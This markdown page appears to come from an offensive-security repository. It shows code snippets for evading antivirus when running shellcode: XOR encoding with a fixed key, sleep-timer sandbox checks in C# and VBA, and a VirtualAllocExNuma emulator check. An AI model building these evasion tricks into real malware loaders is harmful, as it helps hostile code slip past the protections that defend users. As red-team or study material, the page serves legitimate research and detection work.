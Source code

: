 #### XOR Encrypted Shellcode

Shellcode can be encrypted using XOR as well.

[Full Source](../src/csharp/stub/Stub-XorEncryptor.cs)

```
for (int i = 0; i < buf.Length; i++)
{
    encoded[i] = (byte)((uint)buf[i] ^ 0xBE);
}
```

### Sleepy Shellcode Runner

A sleep timer can be used to attempt to trick AV.

#### C#

```
DateTime t1 = DateTime.Now;
Sleep(2000);
double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
if (t2 < 1.5)
{
    return;
}
```

#### VBA

```
' sleep
Dim t1 As Date
Dim t2 As Date
Dim time As Long

t1 = Now()
Sleep (2000)
t2 = Now()
time = DateDiff("s", t1, t2)
If time < 2 Then
    Exit Function
End If
```

### Non Emulated APIs

Attempt to bypass detection using a Win32 API that is not well emulated.

#### VirtualAllocExNuma

[Full Source](../src/csharp/stub/Stub-Numa.cs)

```
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4,0);
if (mem == null)
{
    return;
}
```
